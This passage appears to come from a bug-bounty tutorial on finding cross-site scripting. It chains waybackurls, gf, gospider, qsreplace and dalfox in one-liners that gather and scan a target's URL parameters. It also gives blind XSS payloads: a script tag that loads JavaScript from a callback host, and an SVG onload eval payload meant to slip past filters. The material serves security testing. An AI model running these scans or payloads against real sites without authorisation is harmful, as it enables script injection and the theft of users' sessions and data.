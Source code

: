 ```bash
cat wayback_urls.txt | gf xss | sed 's/=.*/=/' | sed 's/URL: //' | sort -u | tee xss_candidates.txt
```

The GF tool matches parameters against known XSS-vulnerable patterns, significantly reducing the attack surface from potentially thousands of URLs to a focused set of candidates[9].

### Step 3: Automated XSS Scanning

Dalfox performs comprehensive XSS testing on the filtered URLs[5][10]:

```bash
dalfox file xss_candidates.txt -b your-callback.xss.ht
```

## Advanced Automation Techniques

### One-Liner Commands

**Complete automated workflow:**
```bash
echo "target.com" | waybackurls | grep "=" | gf xss | sed 's/=.*/=/' | sort -u | dalfox pipe -b your-callback.xss.ht
```

**Multi-source URL collection:**
```bash
gospider -S targets.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe
```

### Pipeline Integration

Dalfox's pipeline capabilities enable seamless integration with other reconnaissance tools[11]:

```bash
cat target_list | waybackurls -no-subs | grep "https://" | grep -v "png\|jpg\|css\|js\|gif\|txt" | grep "=" | qsreplace | dalfox pipe -blind https://callback.xss.ht
```

## Blind XSS Detection

### Payload Integration

Blind XSS testing requires callback mechanisms to detect vulnerabilities that don't immediately execute in the testing context[12]:

**Basic callback payload:**
```javascript
<script src="https://your-callback.xss.ht/script.js"></script>
```

**SVG-based bypass for filtered contexts:**
```html
"><svg onload="eval(atob(this.id))" id="encoded-payload">
```
